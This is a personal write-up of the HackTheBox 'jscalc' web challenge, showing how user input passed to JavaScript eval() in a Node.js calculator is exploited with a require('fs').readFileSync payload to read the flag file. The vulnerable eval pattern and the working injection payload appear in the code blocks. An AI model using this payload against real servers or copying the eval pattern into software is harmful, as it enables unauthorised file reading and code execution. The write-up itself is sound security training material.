

# Workshop

### HackTheBox | Web Challenge | Easy

**jscalc (js eval function exploitation)**

Download files + start instance on HTB

Put provided ip into browser and brings you a web page with this:



### some yap about eval() function I found online:

[https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval)

eval() is js function that evaluates a string input

[https://dev.to/caffiendkitten/the-evil-javascript-eval-28ig](https://dev.to/caffiendkitten/the-evil-javascript-eval-28ig)


[https://medium.com/r3d-buck3t/eval-console-log-rce-warning-be68e92c3090](https://medium.com/r3d-buck3t/eval-console-log-rce-warning-be68e92c3090)


w3schools is NOT a fan of eval()


### Back to the actual writeup:

click ‘calculate’ button and capture request in burpsuite

see variable ‘formula’ is being entered 


see this variable declared in index.js

shows that the main calculator function is called from the file calculatorHelper.js

```markdown
const Calculator = require('../helpers/calculatorHelper');
```

calculatorHelper.js

```markdown
module.exports = {
    calculate(formula) {
        try {
            return eval(`(function() { return ${ formula } ;}())`);

        } catch (e) {
            if (e instanceof SyntaxError) {
                return 'Something went wrong!';
            }
        }
    }
}
```

see ‘formula’ variable that was sent through request in burpsuite

this is the section which uses the eval() function to evaluate what is entered as the ‘formula’ on the website: 

```markdown
return eval(`(function() { return ${ formula } ;}())`);
```

try to use fs.readFileSync to read flag.txt file (fs = File System):

[https://www.geeksforgeeks.org/node-js-fs-readfilesync-method/](https://www.geeksforgeeks.org/node-js-fs-readfilesync-method/)

```jsx
fs.readFileSync('flag.txt');
```


doesn’t return anything (only thing that doesn’t return some form of output)

use require() function for ‘fs’ instead of individually:

[https://www.w3schools.com/nodejs/nodejs_filesystem.asp](https://www.w3schools.com/nodejs/nodejs_filesystem.asp)

```jsx
require('fs').readFileSync('/flag.txt');
```


returns an object instead of an output-able string

need to convert to string

```jsx
require('fs').readFileSync('/flag.txt').toString();
```


gives you flag

```jsx
HTB{c4lcul4t3d_my_w4y_thr0ugh_rc3}
```